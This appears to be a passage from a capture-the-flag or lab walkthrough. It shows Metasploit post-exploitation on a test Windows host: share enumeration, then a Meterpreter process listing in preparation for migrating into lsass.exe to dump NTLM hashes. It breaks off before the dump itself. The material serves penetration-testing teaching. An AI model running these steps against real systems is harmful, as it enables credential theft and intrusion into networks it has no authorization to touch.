 ```console
msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.244.120)
[*] The following shares were found:
[*]     Name: SYSVOL
[*]     Path: C:\Windows\SYSVOL\sysvol
[*]     Remark: Logon server share 
[*]     Type: DISK
[*] 
[*]     Name: NETLOGON
[*]     Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*]     Remark: Logon server share 
[*]     Type: DISK
[*] 
[*]     Name: speedster
[*]     Path: C:\Shares\speedster
[*]     Type: DISK
[*] 
[*] Post module execution completed 
```
To dump the NTLM hashes, we can use the `hashdump` command in Meterpreter. We will need to migrate to the `lsass.exe` process before we can use hashdump.

```console
msf6 post(windows/gather/enum_shares) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > ps

Process List
============

 PID   PPID  Name                Arch  Session  User                          Path
 ---   ----  ----                ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System              x64   0
 68    4     Registry            x64   0
 396   4     smss.exe            x64   0
 488   684   dwm.exe             x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 548   536   csrss.exe           x64   0
 620   612   csrss.exe           x64   1
 668   536   wininit.exe         x64   0
 684   612   winlogon.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 748   668   services.exe        x64   0
 764   668   lsass.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 884   748   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 896   748   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 948   748   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 992   748   svchost.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1060  748   svchost.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1176  748   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1184  748   svchost.exe         x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
```